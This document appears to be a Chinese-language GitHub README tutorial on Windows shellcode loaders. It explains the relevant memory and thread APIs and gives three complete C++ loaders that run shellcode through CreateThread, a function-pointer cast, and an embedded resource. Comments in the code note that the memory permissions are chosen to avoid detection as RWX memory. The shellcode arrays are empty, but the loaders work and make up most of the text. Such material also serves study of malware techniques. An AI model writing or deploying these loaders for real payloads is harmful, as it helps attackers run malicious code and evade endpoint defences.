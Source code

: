 # Common Shellcode Loader

​	有许多方法可以加载shellcode，但通常的流程包括三个步骤：

1. 申请内存

2. 将shellcode复制到内存中

3. 执行shellcode

   

   本小结不会详细列举所有的shellcodeloader，而是专注于深入讲解最经典的执行方式。



### 创建线程执行shellcode

#### 核心函数

**VirtualAlloc**

https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc

`VirtualAlloc` 函数用于在进程的虚拟地址空间中分配内存，并返回分配的内存的起始地址。以下是每个参数的含义：

```c++
LPVOID VirtualAlloc(
  LPVOID lpAddress, //要分配的内存区域的首选基地址。
  SIZE_T dwSize, //要分配的内存区域的大小，以字节为单位。 
  DWORD  flAllocationType, //指定内存分配类型的一组标志。
  DWORD  flProtect //指定内存页面的保护属性的一组标志。
);
```



**RtlMoveMemory**

https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory

`RtlMoveMemory` 函数是 Windows API 中的一个函数，用于将内存块中的数据从一个位置复制到另一个位置。

```c++
VOID RtlMoveMemory(
  VOID UNALIGNED *Destination, //这是一个指向目标内存块的指针，表示要将数据复制到的位置
  const VOID UNALIGNED *Source, //这是一个指向源内存块的指针，表示要从哪里复制数据
  SIZE_T         Length //这是要复制的数据的字节数
);
```

函数的作用是将源内存块中的数据复制到目标内存块中，长度为 `Length` 字节。这个函数类似于 `memcpy` 函数，但是在处理内存对齐方面更加灵活。



**VirtualProtect**

https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect

`VirtualProtect` 函数是 Windows API 中的一个函数，用于更改指定内存区域的访问权限。

```c++
BOOL VirtualProtect(
  LPVOID lpAddress,	//指向要修改保护属性的内存区域的起始地址的指针。
  SIZE_T dwSize, //要修改保护属性的内存区域的大小，以字节为单位。
  DWORD  flNewProtect, //要设置的新的访问权限和页面属性的组合。
  PDWORD lpflOldProtect //指向变量的指针，用于存储之前的访问权限和页面属性。
);
```

函数的作用是将指定内存区域的访问权限和页面属性设置为新的值，并将之前的值存储在指定的变量中。



**CreateThread**                                                                                        

https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

`CreateThread` 函数是 Windows API 中的一个函数，用于在当前进程中创建一个新的线程。

```c++
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```



#### 代码讲解

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
  DWORD oldprotect = 0;

	//shellcode在main函数内，存储在pe结构的sections table中的.text部分
	unsigned char payload[] = {};
	unsigned int payload_len = sizeof(payload);
	
	// 使用VirtualAlloc申请一个可读可写的内存，这里没有申请执行权限是为了防止出现RWX权限的敏感内存
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// 将shellcode复制到申请的内存中，这里还可以用memcpy等
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// 使用VirtualProtect添加执行权限
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// 如果返回正常，创建线程执行shellcode
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```



### 函数指针转换执行shellcode

其他步骤都一样，在执行shellcode时不使用CreateThread，使用(void(*)())exec_mem)();执行内存。

让我们逐步解释这个表达式：

- `(void(*)())`：这是一个类型转换操作符，用于将其后的表达式转换为指定的类型。在这里，`(void(*)())` 表示将表达式转换为一个函数指针类型。
- `()`：表示一个函数调用运算符。在这个表达式中，我们没有提供任何函数名，而是在括号内使用了一个函数指针类型的转换操作。
- `*`：表示指针。在函数指针类型中，`*` 用于表示一个指向函数的指针。
- `void`：表示函数的返回类型。在这个表达式中，我们指定函数的返回类型为 `void`，表示函数不返回任何值。
- `()`：表示函数的参数列表。在这个表达式中，空括号表示函数没有参数。

因此，`(void(*)())` 表示一个没有参数并且返回类型为 `void` 的函数指针类型。

整个表达式 `(void(*)())exec_mem` 将指向内存中机器码的指针 `exec_mem` 转换为一个函数指针，使得我们可以通过函数指针的方式调用内存中的机器码，即执行 shellcode。

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
  DWORD oldprotect = 0;

	//shellcode在main函数内，存储在pe结构的sections table中的.text部分
	unsigned char payload[] = {};
	unsigned int payload_len = sizeof(payload);
	
	// 使用VirtualAlloc申请一个可读可写的内存，这里没有申请执行权限是为了防止出现RWX权限的敏感内存
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// 将shellcode复制到申请的内存中，这里还可以用memcpy等
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// 使用VirtualProtect添加执行权限
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// 如果返回正常，函数指针类型转换执行shellcode
	if ( rv != 0 ) {
			((void(*)())exec_mem)();
	}

	return 0;
}

```

### 资源加载shellcode

生成bin文件shellcode

**VisualStudio->解决方案->资源文件->添加->资源**

![image-20230419174631527](./README.assets/image-20230419174631527.png)

导入-自定义资源类型

![image-20230419174745700](./README.assets/image-20230419174745700.png)

ctrl+s 保存

![image-20230419174847116](./README.assets/image-20230419174847116.png)



```c++
#include"resource.h"
#include <windows.h>
#include<iostream>


int main() {
    {
        HRSRC Res = FindResource(NULL, MAKEINTRESOURCE(IDR_BIN1), L"bin"); DWORD Size = SizeofResource(NULL, Res);
        HGLOBAL Load = LoadResource(NULL, Res);
        void* buffer = VirtualAlloc(0, Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        memcpy(buffer, Load, Size);
        ((void(*)())buffer)();

    }

}
```

64位release生成解决方案(shellcode位数要与release位数相同)
